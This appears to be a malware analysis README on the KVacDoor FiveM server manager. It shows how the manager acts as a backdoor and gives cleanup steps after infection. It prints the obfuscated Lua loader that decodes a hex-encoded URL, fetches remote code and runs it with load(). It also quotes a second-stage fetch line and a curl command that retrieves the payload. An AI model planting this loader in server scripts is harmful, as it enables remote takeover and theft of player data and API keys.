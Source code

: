 As an introduction, KVacDoor is a really used fivem and garry's mod server manager, boasting features such as 

> **Lua Script**
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server.
It is strongly recommended you read cipher's panel breakdown as the code and method used are almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
If that looks familiar, that's because it's the same code (with the link changed of course) used by the cipher panel backdoor - 
I'd recommend reading it before continuing one, though I will explain briefly how the code works
In-short the `random_char` table is a link, which gets interpreted by `str_utf8()` which runs as an http request on the server, giving access to it.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the `FXServer/PerformHttpRequest` user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link
`https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`
and translate it to text:
`https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

cURL-ing this link grants us the payload code:

minimized-payload.lua

beautifying it a bit we get this

payload.lua

The scripts seem to grab all relevant info like licenses, IPs, identifiers from the players in your server, and also stealing API keys from the server .cfg
It also overrides the `chatMessage` event
It grants the resource the payload was ran from permissions in the server.cfg - and therefore txAdmin


```Post-Infection Measures```
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the OS and only in the former 3 locations.
Then reseting any API keys you have put in your server.cfg (like steam, rcon passwords)
Then reinstalling your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.
